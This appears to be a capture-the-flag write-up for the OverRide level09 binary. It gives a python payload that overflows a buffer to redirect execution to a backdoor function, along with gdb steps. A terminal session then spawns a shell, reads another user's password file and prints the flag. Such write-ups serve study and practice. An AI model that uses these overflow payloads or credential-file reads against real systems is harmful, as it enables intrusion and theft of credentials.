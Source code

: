 We did infact override the EIP, and the offset was [200](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/?eip-length=100&eip-output-string=Output+string+goes+here). Now we add the address of `secret_backdoor` and we should be finished.

```
# prep input
python -c "print '\xff' * 41 + '\n' + 'B' * 200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1]" > /tmp/level09

# launch gdb
gdb level09
b *0x55555555491f
b *0x555555554924
lay asm
focus cmd
tty /dev/pts/1
set disassembly-flavor intel
run < /tmp/level09
```

```
level09@OverRide:~$ (python -c "print '\xff' * 41 + '\n' + 'B' * 200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1]" ; cat ) | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!
/bin/sh
whoami
end
pwd
/home/users/level09
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

```
The password for the end user is `j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE`
